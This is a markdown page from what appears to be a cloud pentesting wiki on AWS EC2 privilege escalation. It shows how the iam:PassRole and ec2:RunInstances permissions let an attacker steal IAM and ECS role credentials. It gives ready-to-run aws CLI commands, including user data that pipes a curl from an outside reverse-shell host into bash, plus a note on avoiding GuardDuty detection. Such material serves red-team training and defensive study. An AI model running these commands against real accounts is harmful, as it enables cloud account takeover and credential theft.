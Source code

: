 # AWS - EC2 Privesc

## EC2

For more **info about EC2** check:

[[../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/]]

### `iam:PassRole`, `ec2:RunInstances`

An attacker could **create and instance attaching an IAM role and then access the instance** to steal the IAM role credentials from the metadata endpoint.

- **Access via SSH**

Run a new instance using a **created** **ssh key** (`--key-name`) and then ssh into it (if you want to create a new one you might need to have the permission `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
    --iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
    --security-group-ids <sg-id>
```

- **Access via rev shell in user data**

You can run a new instance using a **user data** (`--user-data`) that will send you a **rev shell**. You don't need to specify security group this way.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
   --iam-instance-profile Name=<instance-profile-name> \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Be careful with GuradDuty if you use the credentials of the IAM role outside of the instance:

[[../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md]]

**Potential Impact:** Direct privesc to a any EC2 role attached to existing instance profiles.

#### Privesc to ECS

With this set of permissions you could also **create an EC2 instance and register it inside an ECS cluster**. This way, ECS **services** will be **run** in inside the **EC2 instance** where you have access and then you can penetrate those services (docker containers) and **steal their ECS roles attached**.

```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh"

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```
